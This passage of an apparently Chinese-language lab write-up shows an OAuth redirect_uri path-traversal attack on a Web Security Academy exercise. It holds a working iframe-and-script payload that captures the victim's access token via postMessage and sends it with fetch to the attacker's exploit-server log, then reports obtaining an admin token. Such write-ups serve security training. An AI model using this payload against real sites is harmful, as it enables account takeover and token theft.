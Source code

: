 [![](assets/1706059995-f438523db5545caa51e04add2477a7b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234003-82dc1b22-b93c-1.png)  
随后我们构造如下载荷并用漏洞利用服务器进行托管操作：

```plain
<iframe src="https://oauth-0a82000703fb10c7839a724d02f3000b.oauth-server.net/auth?client_id=so0r401bjqdo1b9htyyeb&redirect_uri=https://0afa0008035e107083727466006000e9.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

[![](assets/1706059995-04ac087747f55ce1dae733eec26a73ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234026-9026275a-b93c-1.png)  
访问载荷页面：  
[![](assets/1706059995-6684d03bc9ddb8594c487f1617c9b58f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234045-9b8dd6ba-b93c-1.png)  
在日志中我们可以获取到 accesstoken 记录  
[![](assets/1706059995-32f9cd8ab3403b58b52567b5c0dca950.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122234100-a44d3c1e-b93c-1.png)  
随后分发一次请求载荷并刷新日志可以看到来自 admin 的 accesstoken  